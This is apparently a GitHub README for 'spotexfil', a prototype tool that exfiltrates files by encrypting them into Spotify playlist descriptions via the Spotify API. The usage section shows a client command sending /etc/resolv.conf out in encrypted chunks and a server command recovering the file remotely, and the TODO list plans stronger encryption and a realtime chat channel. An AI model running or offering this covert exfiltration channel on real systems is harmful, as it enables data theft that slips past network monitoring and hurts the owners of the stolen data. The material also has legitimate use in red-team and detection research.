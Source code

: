 # spotexfil (status: MVP)
A simple attempt to exfiltrate data using spotify API, 300 bytes at a time.

We can read a mini file (payload) and encode it inside a playlist description field via Spotify API.
Really MVP/prototype, not meant for large files.

# Usage

Using /etc/resolv.conf as payload:

```
$ ./spotexfil_client.py -f /etc/resolv.conf
[*] Data cleared
"0614b19d74be941ac3a89fdcbc33d3ebc62cb996f574a1b3cb95867c1db90b87ca154ad38151a25e09d2b9429f66ad8d00afb005b1e257f89c27b030ca46ae3b6856574d3bc40476fd3c0703618f4ac4810dc59b7797dc1a873252de1017fd12205e99458eb0f40c4fa98db36cc972ec3c7f008541450e8269679fd6e54cf09ac432e002fdfb3be3ae85fa89373e0ad3c68af7bde50
	[*] Creating inpayloadwetrust0
b5118c7d5947d2f1a467069e3f2796b3859015741622226f58609dcee056954b42520dfeb8d09c1280fffb1e2c7178c3d46e0203b6284e14d08868e75bef729b939fee6e4edcd0e463f5b2797b40640eabf8940bfb8e82bde4bed531310b6e496066bad02a1a7bc4c854ef070a14166a6cd55f0c8f17c9c9ffaf79bef38c3dfaf6fd9d0ef1baf62589aad3c39bafd768cbe7ee48a10b
	[*] Creating inpayloadwetrust300
728a9be5127a45b5aa4b1a6f6cbd216f1e0ae80d843ad2f15a07ae721773eb529ea64963557196ba8bd29eca370ff3a8ae6d32f67251edb078619a4d97db332ccf432402a3a45b5675b82e6f8"
	[*] Creating inpayloadwetrust600
[*] Data encoded and sent
```

Receiving from a far:
```
$ ./spotexfil_server.py -r
#
# macOS Notice
#
# This file is not consulted for DNS hostname resolution, address
# resolution, or the DNS query routing mechanism used by most
# processes on this system.
#
# To view the DNS configuration used by this system, use:
#   scutil --dns
#
# SEE ALSO
#   dns-sd(1), scutil(8)
#
# This file is automatically generated.
#
domain nyc.rr.com
nameserver 172.16.0.1
```

# TODO
* move from XXTEA crappy easy crypto to asymmetric (working in separate branch)
* peer-review from a real Python developper would help :P
* build chat system, adding a realtime listener component into spotexfil_server.py

